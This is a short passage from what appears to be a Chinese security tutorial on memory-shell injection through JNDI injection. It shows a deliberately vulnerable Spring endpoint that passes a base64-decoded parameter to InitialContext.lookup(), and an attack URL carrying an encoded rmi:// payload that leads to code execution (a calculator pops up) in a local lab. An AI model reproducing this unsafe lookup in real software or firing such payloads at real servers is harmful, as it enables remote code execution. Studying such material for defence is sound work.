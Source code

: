 ### 利用 JNDI 注入漏洞实现内存马注入

启动漏洞环境，代码如下

```bash
@GetMapping({"/jndi"})
    public void jndi(@RequestParam String b) throws Exception {
        byte[] decodedBytes  = Base64.getDecoder().decode(b);
        String decodedUrl = new String(decodedBytes , StandardCharsets.UTF_8);
        InitialContext ctx = new InitialContext();
        ctx.lookup(decodedUrl);
    }
```

访问 URL 完成攻击（传过去的`jndi-url`是`rmi://localhost:11451/remoteObj`）

`http://localhost:8080/memShell/jndi?b=cm1pOi8vbG9jYWxob3N0OjExNDUxL3JlbW90ZU9iag==`

随便访问一个不存在的目录，成功弹出了计算器[![](assets/1701678277-d491c44f360f6ae00099c29332c9e9bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130224600-2da4f024-8f8f-1.png)

